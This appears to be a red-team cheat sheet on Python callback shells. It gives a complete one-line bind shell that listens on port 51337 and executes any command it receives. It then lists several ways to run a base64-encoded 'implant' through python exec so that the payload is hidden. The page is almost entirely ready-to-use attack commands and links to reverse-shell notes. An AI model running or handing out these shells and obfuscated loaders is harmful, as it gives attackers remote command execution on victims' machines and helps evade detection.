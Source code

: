 # Python

## 01 - Bind Shell

```
> python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## 02 - Base64 encoded one-line from CLI

Encode the python implant.

```
$ basenc -w 0 implant.py
```

Single quote

```
> python -c 'exec "<base64_payload>".decode("base64")'

$ echo "exec('<base64_payload>').decode('base64')) | python"
```

Double quote

```
> python -c "exec '<base64_payload>'.decode('base64')"

> python -c "exec( __import__('base64').decodestring('<base64_payload>'))"

> python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b, 'UTF-8')}[sys.version_info[0]]('<base64_payload>')))"
```

One-line Base64 (ANSI-C Quoting)

```
> python -c $'exec \'<base64_payload>\'.decode(\'base64\')'
```

One-line Base64

```
> python -c "exec \"<base64_payload>\".decode(\"base64\")"
```

Heredoc Base64

```
$ python - <<EOF
exec '<base64_payload>'.decode('base64')
EOF

$ python - <<EOF
exec "<base64_payload>".decode("base64")
EOF
```

---
## References

### Reverse Shells

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Windows/Reverse Shells/Python|One-Liners: Windows Python Reverse Shells]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Reverse Shells/Python|One-Liners: Linux Python Reverse Shells]]

### Bind Shells

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Bind Shells/Python|One-Liners: Linux Python Bind Shells]]

### Resources

- [don't code me on that: Python Reverse Shells](https://medium.com/dont-code-me-on-that/bunch-of-shells-python-b3fb1400b823)

- [PuckieStyle: Python one-line b64 Shellcode](https://www.puckiestyle.nl/python-one-line-shellcode/)